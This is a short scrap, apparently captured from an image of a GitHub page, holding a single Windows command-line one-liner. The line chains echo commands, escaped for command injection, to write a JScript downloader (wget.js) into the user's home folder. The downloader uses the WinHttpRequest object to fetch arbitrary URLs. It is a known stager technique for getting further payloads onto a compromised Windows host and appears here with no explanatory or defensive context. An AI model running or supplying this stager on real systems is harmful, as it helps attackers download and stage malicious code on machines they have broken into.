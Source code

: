 echo var WinHttpReq = new ActiveXObject(^"WinHttp.WinHttpRequest.5.1^"); > c:%homepath%\wget.js "&" echo WinHttpReq.Open(^"GET^", WScript.Arguments(0), /*async=*/false); >> c:%homepath%\wget.js "&" echo WinHttpReq.Send(); >> c:%homepath%\wget.js "&" echo WScript.Echo(WinHttpReq.ResponseText); >> c:%homepath%\wget.js
